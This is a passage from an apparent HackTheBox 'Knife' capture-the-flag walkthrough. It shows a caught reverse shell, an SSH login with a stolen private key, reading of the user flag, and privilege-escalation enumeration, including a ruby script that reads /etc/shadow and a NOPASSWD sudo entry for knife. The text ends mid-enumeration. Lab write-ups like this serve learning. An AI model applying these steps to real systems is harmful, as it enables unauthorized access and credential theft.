 ```bash
listening on [any] 12345 ...
connect to [YOUR IP] from (UNKNOWN) [10.10.10.242] 37114
kali@kali:~/HackTheBox/Knife$ chmod 700 id_rsa 
kali@kali:~/HackTheBox/Knife$ ssh -i id_rsa james@10.10.10.242
The authenticity of host '10.10.10.242 (10.10.10.242)' can't be established.
ECDSA key fingerprint is SHA256:b8jYX4F9OUtvZffH50q3L3B4hrSL/TxxPuue0hlbvRU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.242' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-72-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 23 May 2021 02:48:14 AM UTC

  System load:             0.16
  Usage of /:              52.5% of 9.72GB
  Memory usage:            61%
  Swap usage:              0%
  Processes:               342
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.242
  IPv6 address for ens160: dead:beef::250:56ff:feb9:fc3a


18 updates can be applied immediately.
13 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


james@knife:~$ cat user.txt
cat user.txt
517f87db67259fe18b6d86b4eaa0ba8d
```
Now we have the stable shell now lets enumerate for PrivESC.
## Enumeration
```bash
james@knife:~$ cat ex.rb 
puts File.read('/etc/shadow')
```
Looking into user's home directory we can see an intresting ruby file which can read /etc/shadow but the catch is we dont have ruby on the box or atleast on the desired path and the desired name.
### sudo -l
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Analysing the file /usr/bin/knife
```bash
james@knife:~$ file /usr/bin/knife 
/usr/bin/knife: symbolic link to /opt/chef-workstation/bin/knife
```
It's symbolic link to another file /opt/chef-workstation/bin/knife.
looking at the directory /opt/chef-workstation we can see it a ruby installation.
```bash
james@knife:~$ ls /opt/chef-workstation/
```